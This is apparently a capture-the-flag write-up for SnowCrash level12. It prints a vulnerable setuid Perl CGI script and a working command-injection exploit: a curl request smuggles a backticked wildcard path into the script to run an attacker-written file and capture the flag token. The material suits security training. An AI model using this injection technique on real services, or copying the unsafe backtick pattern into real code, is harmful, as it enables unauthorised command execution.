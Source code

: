 # level12

```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
With this line:
```
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
We can see a potential injection.
But because of the previous regex, we can't use lowercase and space, so let's make a small script:
```
level12@SnowCrash:~$ echo "getflag > /tmp/flag.txt" > /tmp/123
level12@SnowCrash:~$ chmod 777 tmp/123
level12@SnowCrash:~$ curl "http://localhost:4646/?x=\`\/*\/123\`"
..level12@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
